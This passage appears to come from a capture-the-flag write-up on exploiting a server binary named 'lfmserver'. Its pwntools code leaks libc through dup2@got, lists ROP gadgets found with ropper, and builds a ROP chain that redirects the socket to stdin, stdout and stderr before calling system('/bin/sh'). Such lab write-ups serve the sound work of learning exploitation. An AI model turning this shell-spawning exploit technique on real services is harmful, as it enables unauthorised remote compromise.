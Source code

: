 ```python
        io.recvline(timeout=3)
        io.recvline(timeout=3)
        io.recvline(timeout=3)

        leak = u64(io.recv().rstrip()[1:7].ljust(8, b'\x00'))
        io.close()
        clear(3)

        # Check if leak is plausible
        if leak < libc.symbols['dup2']:
            raise Exception("Leak not plausible!")

        libc.address = leak - libc.symbols['dup2']
        clear()
        log.success("Leaked libc-base: %s" % hex(libc.address))
        return True
    except:
        return False
```
Now with the `genRequest` setup, the rest of the exploitation is just simple rop. The gadgets can be acquired using any tool. I used `ropper` to get the gadgets:
```python
# ropper --file lfmserver
pop_rdi = 0x0405c4b #0x0405c4b: pop rdi; ret;
pop_rsi = 0x0405c49 #0x0405c49: pop rsi; pop r15; ret;
nop     = 0x040251f #0x040251f: nop; ret;
```
We use write to leak `dup2@got` and calculate the `libc base` address. I simply manually brute forced the fd (using a for loop), until I got a valid result.

#### Ropchain for popping a shell
With the libc base address leaked, we use a simple `ropchain` to redirect stdin, stdout and stderr to the socket and then call `system(/bin/sh)`.
```python
def genRopchain(fd):
    rop = ROP([binary,libc])

    rop.dup2(fd, 0)
    rop.dup2(fd, 1)
    rop.dup2(fd, 2)

    rop.system(next(libc.search("/bin/sh")))
    return bytes(rop)
```
Pwntools luckily can do all the heavy lifting and gives us an easy way to redirect `stdin`, stdout and stderr to the socket fd and calls system with  `/bin/sh`.

```python
def sendPayload(fd):
    io = start()
    rop = genRopchain(fd)
    io.sendline(genReq(rop))
    return io
```
Now we just need to call the `genRopchain` function and send the ropchain to the server.

